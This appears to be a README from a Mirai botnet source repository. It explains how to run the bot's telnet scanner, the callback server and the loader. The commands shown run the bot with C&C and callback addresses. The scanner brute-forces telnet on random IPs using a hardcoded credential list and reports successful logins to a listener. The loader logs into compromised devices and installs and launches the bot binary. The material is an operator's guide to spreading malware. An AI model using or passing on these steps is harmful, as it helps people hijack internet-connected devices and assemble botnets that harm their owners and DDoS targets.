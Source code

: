 # Scanner and Loader Instructions

### Running the bot with scanning enabled
run the bot with the last argument set as `1`
  * arguments: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>`
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 1`
  * you can also edit [`mirai/demo-bot.sh`](mirai/demo-bot.sh) to enable the flag for you

using the debug, telnet version, the bot will generate random ip addresses and check if a telnet daemon is running on port 23. it will then use its hardcoded list of logins to try to gain access to the device. 
  * the list of logins is in `scanner_init()` in [`mirai/bot/scanner.c`](mirai/bot/scanner.c) (use the `enc` tool to convert strings into the required format if you want to add new logins)
  * the range of ip addresses it generates can be set here: `get_random_ip()` in [`mirai/bot/scanner.c`](mirai/bot/scanner.c)

### Running the callback server
if successful, the bot will then report the vulnerable ip address, along with its login credentials to the callback server. 
  * a simple callback server is found here: [`mirai/tools/scanListen.go`](mirai/tools/scanListen.go), it is built as `scanListen`
  * run it as: `sudo ./debug/scanListen`
  * it listens on port `48102`

### Running the single loader
the single loader takes a list of input ip addresses, login credentials, and a binary to transmit (usually the bot itself). it then logs into each device on the list and uses telnet to transmit the binary. finally, it then launches the binary with the specified arguments. 
  * it is found here: [`mirai/tools/single_load.c`](mirai/tools/single_load.c) and is built as `single_load`
  * run it as: `./debug/single_load <bind ip> <input file> <path to file_to_load> <argument> <threads> <connections> (debug mode)`
  * e.g. `./debug/single_load 10.0.0.1 ./debug/input.txt ./debug/mirai.dbg "10.0.0.1 10.0.0.2 10.0.0.1 0" 1 1 1` (having the last argument, of any value, means that it runs in debug mode)
